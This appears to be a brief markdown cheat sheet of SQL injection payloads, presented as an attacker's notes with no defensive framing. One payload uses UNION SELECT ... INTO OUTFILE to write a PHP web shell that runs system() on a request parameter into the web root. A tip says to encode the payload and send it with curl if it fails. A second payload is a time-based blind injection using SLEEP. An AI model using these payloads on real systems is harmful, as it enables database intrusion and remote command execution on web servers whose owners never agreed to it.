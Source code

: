 # SQL Injection

- SQL Injection write to file via shell
```
test' union select '<?php echo system($_REQUEST["bingo"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

- If it does not work, encode all characters and send via `curl`.

## Blind
```
TEST' UNION SELECT SLEEP(10);-- -
```
